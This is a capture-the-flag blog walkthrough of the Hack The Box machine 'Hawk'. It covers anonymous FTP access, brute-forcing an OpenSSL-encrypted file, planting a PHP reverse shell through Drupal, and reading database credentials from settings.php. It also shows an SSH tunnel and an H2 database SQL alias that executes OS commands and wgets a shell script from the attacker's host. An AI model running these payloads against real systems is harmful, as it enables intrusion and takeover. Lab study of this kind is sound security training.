 ```yaml
---
title:  "Hack The Box / Hawk"
date: 2020-02-04
tags: [Penetration Testing, Hacking, Hack The Box, Jeeves, OSCP, Offensive Security]
header: 
  image: "assets/images/hawk/hawk-header.png"
---
```

Hawk is our eighth machine in the OSCP list provided by [NetSec Focus](https://www.netsecfocus.com/)! Flaws with FTP, file coded in base64, services running, tunneling, and a new way to do some privilege escalation are part of this machine with hawk! The learning acquired from here shows some common flaws and misconfigurations. This is the eighth blog before my third attempt to the OSCP exam, so let's get to it!

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/hawk/list.jpg" alt="nmap scan">

## Information Gathering


### Nmap Scan
So, we start with a nmap scan to check what ports are open and what services are running in this machine.
```
nmap -sC -sV -p- -oN scan.nmap 10.10.10.102
```
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/hawk/nmap.png" alt="nmap scan">

There are couple ports and services running such as FTP in port 21 (which we can log in an anonymous), SSH in port 22, HTTP in port 80, and H2 Database in port 8082. There are other ports that are not named in this article.

### Loging FTP as Anonymous
So as I said before, we can login in FTP as anonymous user, and actually, going to the directory ```messages``` there is a file that might contain interesting information which is  ```.drupal.txt.enc```

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/hawk/ftp.png" alt="nmap scan">

aftergetting the file, we see that has a password and it is base64 encoded, so let's decode it. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/hawk/ftp-gotten.png" alt="nmap scan">

So, to decode we use the command with [base64](https://linux.die.net/man/1/base64) to get the file.
```
base64 -d drupal.txt.enc > drupal_decode.txt.enc
```
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/hawk/decode.png" alt="nmap scan">

Great! Now it's time to crack the password!

### Brute Forcing SSL Salted Password

As we saw the format displayed with the images above, there is a program that can help us to crack this SSL salted password called [bruteforce-salted-openssl](https://github.com/glv2/bruteforce-salted-openssl), and we are using the wordlist rockyou. 
~~~ s
root@kali:~/htb/coffee/hawk/10.10.10.102# bruteforce-salted-openssl -t 6 -f /usr/share/wordlists/rockyou.txt -d sha256 drupal_decode.txt.enc
Warning: using dictionary mode, ignoring options -b, -e, -l, -m and -s.

Tried passwords: 27
Tried passwords per second: inf
Last tried password: secret

Password candidate: friends
~~~

Great, so the password in order to get this file is ```friends```, let's see what we find inside. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/hawk/cracked.png" alt="nmap scan">

So, there is a note about the password for the portal, looks like we have to login in our HTTP port from our browser using the password  ```PencilKeyboardScanner123```.

### Login & Reverse Shell

Getting in the portal from our browser we can login as ```admin``` with the password found it before which is ```PencilKeyboardScanner123```, and we're in! Now it's time to see how we can get a shell from here.

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/hawk/got-admin.png" alt="nmap scan">

Looking at different things, there is the possibility to publish an article, but just HTML is allow to put in here, but if we want to execute some php code, in ```modules```, we can see the posibility to allow to write articles in php. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/hawk/modules.png" alt="nmap scan">

Now, once we set the option to write articles in php, we can go to ```Add Content``` and put our [php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) from Pentest Monkey, then change some parameters such as IP and Port. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/hawk/before-shell.png" alt="nmap scan">

Set up a netcat listener, save the file, and get the shell!

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/hawk/shell-gotten.png" alt="nmap scan">

Wolah! We got a shell. 

### User Flag

Extrangely we can get the user flag as www-data!

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/hawk/user-flag.png" alt="nmap scan">

But, would be nice if we escalate privileges to Daniel, right?

### Privileges Escalation to Daniel

Doing basic enumeration, there was information that MySQL was running in the system and drupal can manage some credentials from MySQL, so googling things such as __drupal mysql settings__, there was a page explaining that you can find the credentials at ```/var/www/html/sites/default/settings.php``` and correctly we found some credentials linked to Daniel user. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/hawk/passwordfound.png" alt="nmap scan">

Now havinf the credentials it's time to get in the system as Daniel, so 
```
su daniel
```
We can overpass the python entry by the pty library...
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/hawk/daniel.png" alt="nmap scan">
 
 And we're in once again! Also, we can read the flag. 

 <img src="{{ site.url }}{{ site.baseurl }}/assets/images/hawk/flag-daniel.png" alt="nmap scan">

 Looks like time to escalate to root, huh?

### Privileges Escalation to Root

 Do you remember the port 8082 running H2 Database? Well, we can find it in the enumeration by running [LinEnum.sh](https://github.com/rebootuser/LinEnum).

  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/hawk/H2.png" alt="nmap scan">

  we can find it in services as well. 

   <img src="{{ site.url }}{{ site.baseurl }}/assets/images/hawk/services.png" alt="nmap scan">

   The problem here is that when we visit the website as ```http://10.10.10.102:8082/``` and we can log in due to it's not allowed to let people from outside to log in. So, having Daniel's credentials we can do some tunneling and get the service from our local host. 

   ```
ssh -L 8080:127.0.0.1:8082 daniel@10.10.10.102
   ```
So, basically what we're doing here is to tunnel the service running in port 8082 to our localhost to run in port 8080. Then, after doing this, we can get in ```http://localhost:8080/```. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/hawk/h2-database.png" alt="nmap scan">

So, where it says test we can change it to ```root``` and get access to the console. Once in the console we can add some kind of MySQL sintax where we can use wget in order to get our reverse shell. The shell used is a Bash TCP shell, so this is the sintax in order to download our file, before doing this remember to set up an HTTP Server in your localhost. 
```SQL
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
CALL SHELLEXEC('wget http://10.10.16.80/shell')
```
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/hawk/wget.png" alt="nmap scan">

After this is time to rename the file ```shell``` to ```shell.sh``` and give it execution permisions, after doing it we can set up our netcat listener and call the shell. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/hawk/call-shell.png" alt="nmap scan">

### Root Flag

After getting the root it's time read the flag because we owned the system!

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/hawk/root-flag.png" alt="nmap scan">

## To conclude

This machine was complex for me due to my lack of knowledge of MySQL Sintax, there were some good readings in interenet but [0xrick](https://0xrick.github.io/hack-the-box/hawk/) was pretty helpful with this. The privilege escalation was not that curious due to the drupal documentation about the credentials, but stills fun!